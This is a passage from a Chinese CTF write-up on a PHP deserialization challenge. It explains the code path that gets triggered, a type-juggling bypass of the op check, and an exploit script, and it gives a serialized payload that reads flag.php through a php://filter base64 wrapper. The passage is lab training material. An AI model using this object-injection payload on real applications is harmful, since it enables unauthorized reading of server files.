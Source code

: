 ​	可以看到可以利用output函数对write或read函数的返回值进行输出。write函数并没有什么实际作业，而read函数可利用file_get_contents来读文件

```php
public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
```

​	process会根据op的值来判断执行write还是read，我们的目的是执行read，所以让op的值为2

​	__destruct()里使用了强类型的比较(这里的2位字符串类型，可以定义一个int类型),可以利用op=2进行绕过，这样op就不会被重置为1

```php
if($this->op === "2")
            $this->op = "1";
```

这样链子就出来了

destruct->process->read->output

```php
exp:
<?php

class FileHandler {

    public $op = 2;
    public $filename = "php://filter/convert.base64-encode/resource=flag.php";
    public $content;
}
echo serialize(new FileHandler());

?>
```

payload:

```
?str=O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:52:"php://filter/convert.base64-encode/resource=flag.php";s:7:"content";N;}
```

![1626677675464](buuweb_page1.assets/1626677675464.png)

## [MRCTF2020]你传你🐎呢

经过测试，传php后缀的都不可以，只能传图片喽

![1626677812001](buuweb_page1.assets/1626677812001.png)
